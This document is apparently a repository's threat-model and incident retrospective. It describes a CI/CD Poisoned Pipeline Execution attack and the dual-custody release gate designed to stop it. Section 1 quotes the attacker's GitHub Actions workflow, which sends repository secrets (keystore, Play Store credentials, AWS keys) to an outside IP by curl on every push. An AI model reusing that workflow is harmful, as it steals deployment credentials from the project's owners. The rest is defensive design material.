

# Threat Model & Incident Retrospective

**How a real-world CI/CD supply chain attack shaped this release gate architecture.**

---

## 1. The Incident: Poisoned Pipeline Execution (PPE)

This repository's architecture was forged from a real-world **Poisoned Pipeline Execution (PPE)** attack—cataloged as one of the **OWASP Top 10 CI/CD Security Risks**.

An attacker gained repository access using a compromised credential and immediately weaponized GitHub Actions. The attacker injected a malicious workflow file (`.github/workflows/github_actions_security.yml`) disguised as a routine security scanner.

The workflow triggered on `push` and `workflow_dispatch`, packaging every secret available to the repository—including release keystores, store service accounts, AWS credentials, and environment API keys—and exfiltrated them via a `POST` request to an external command-and-control IP:

```yaml
# Simplified snippet of the actual attack payload
name: Github Actions Security
on: [push, workflow_dispatch]

jobs:
  send-secrets:
    runs-on: ubuntu-latest
    steps:
      - name: Github Actions Security
        run: |
          curl -s -X POST -d "ANDROID_KEYSTORE=${{ secrets.ANDROID_UPLOAD_KEYSTORE }}&PLAY_STORE_JSON=${{ secrets.PLAY_STORE_SERVICE_ACCOUNT_JSON }}&AWS_KEY=${{ secrets.AWS_ACCESS_KEY_ID }}..." http://193.32.204.199
```

---

## 2. The "Assume Breach" Mentality & Blast Radius Control

In modern security, attempting to guarantee that developer credentials, bot PATs, or dependencies will never leak is a losing strategy. This architecture operates under an **"Assume Breach"** philosophy:

> **Assume a token with repository write access has already been compromised. What structural defenses stop that compromised token from shipping malware to production?**

### The Mobile Blast Radius
Leaked secrets can be rotated and revoked. However, in mobile CI/CD pipelines, one-click deployments create an unacceptably catastrophic blast radius:
- **No Instant Rollback:** Unlike backend servers where a bad deploy can be rolled back in 60 seconds, mobile binaries (`.aab` / `.ipa`) are cryptographically signed, reviewed by app store tracks, and downloaded directly to users' physical devices.
- **Persistent User Compromise:** If an attacker can trigger production publishing, they can ship backdoored mobile updates to Google Play and Apple App Store. Remediating requires building a new version and waiting for store reviews while active users run the malicious binary.
- **Cross-Platform Threat:** This applies equally to Android (Google Play) and iOS (Apple App Store / TestFlight via headless macOS cloud runners). If the release trigger is unprotected, both ecosystems are vulnerable.

---

## 3. Defense-in-Depth Architecture

To permanently close this vector, the release gate enforces **dual custody** and strict structural boundaries across four pillars:



### Pillar 1: Mandatory `CODEOWNERS` on Workflows
An attacker cannot silently introduce or modify workflow files. Any modification to `.github/workflows/` requires mandatory review and approval from named code owners.

### Pillar 2: Zero Direct Publishing Triggers
The core publishing workflow (`_publish.yml`) is strictly `workflow_call` only. It cannot be launched manually from the GitHub Actions web UI, and it cannot be triggered by a git `push`. 

A automated CI trigger guard (`scripts/check-publish-trigger.sh`) runs on every pull request to ensure `_publish.yml` never gains another trigger.

### Pillar 3: Enforced Dual Custody (Two-Person Rule)
A single set of hands can never trigger a production release:
- **Person A** triggers `Release 1: Request`, which creates an audit-tracked pull request into a holding branch.
- **Person B** (an independent, authorized approver) must review and approve the request.
- The approval gate cryptographically checks that `approver != requester`.

### Pillar 4: Holding Branch Isolation
Release requests are opened against `release-gate`, an isolated holding branch—never against `main` or `dev`. Merging code into development never publishes; merging a release request never publishes.

---

## 4. Threat Matrix

| Threat Scenario | Default GitHub Actions | With Release Gate & CODEOWNERS |
| :--- | :--- | :--- |
| **Attacker injects exfiltration workflow** | Workflow runs immediately on push. | ❌ Blocked: PR requires CODEOWNER review to merge. |
| **Attacker clicks "Run workflow" to deploy rogue release** | Deployment runs immediately. | ❌ Blocked: Publish workflow has no manual dispatch trigger. |
| **Engineer attempts to approve their own release** | Permitted unless branch rules block it. | ❌ Blocked: Gate fails with `Requester cannot approve`. |
| **Attacker attempts to add triggers to publish workflow** | PR merged if CI checks pass. | ❌ Blocked: CI trigger guard fails the build automatically. |
| **Attacker pushes new commit to request branch to change `requested_by`** | Permitted (requester can be overwritten). | ❌ Blocked: Gate checks that exactly one commit touches the request file, that commit is the PR head, and it's authored by `github-actions[bot]`. Publish also re-verifies the PR head SHA hasn't changed ("dismiss stale approvals"). |

---

## 5. Summary

The release gate treats **single-party production deployments as a critical security vulnerability**. By decoupling the release request from approval and enforcing strict code-ownership boundaries, your production store releases remain safe even if an individual token is compromised.
